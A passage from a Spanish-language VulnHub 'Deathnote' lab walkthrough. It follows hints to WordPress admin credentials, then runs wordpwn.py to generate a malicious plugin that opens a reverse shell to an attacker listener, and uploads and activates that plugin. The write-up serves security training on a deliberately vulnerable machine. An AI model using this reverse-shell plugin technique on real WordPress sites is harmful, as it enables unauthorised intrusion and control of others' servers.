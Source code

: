 Dirá que realmente es un documento de texto al que se le ha cambiado el nombre para hacer parecer que es una imagen.

Leer el archivo `important.jpg`, no es necesario cambiar su extensión para que cat lo reconozca.

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/deathnote/10.png){: .align-center}

Dirá que miremos en `/user.txt`, tambien que la contraseña puede estar en el lugar de la pista

Entrar a la web y darle click al Hint

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/deathnote/11.png){: .align-center}

Dirá que busquemos un archivo llamado `notes.txt` en el servidor o leamos el comentario de L

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/deathnote/12.png){: .align-center}

Mirar el comentario de L

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/deathnote/13.png){: .align-center}

Probar a acceder desde el login con el usuario Kira y la contraseña iamjustic3

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/deathnote/14.png){: .align-center}

Dará acceso al panel de administrador de Wordpress

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/deathnote/15.png){: .align-center}

Probar a entrar al editor de temas para modificar el de 404, mostrará que no es posible

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/deathnote/16.png){: .align-center}

Utilizar `malicious-wordpress-plugin` para crear un plugin que abrirá un shell inverso

```bash
python wordpwn.py 192.168.122.5 4444 Y
```

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/deathnote/17.png){: .align-center}

Quedará en el puerto de escucha y se generará un archivo zip que será el plugin

Subir el plugin al sitio de wordpress

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/deathnote/18.png){: .align-center}
![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/deathnote/19.png){: .align-center}

Activar el plugin

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/deathnote/20.png){: .align-center}

Ir al editor de plugins y seleccionar GotEm

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/deathnote/21.png){: .align-center}
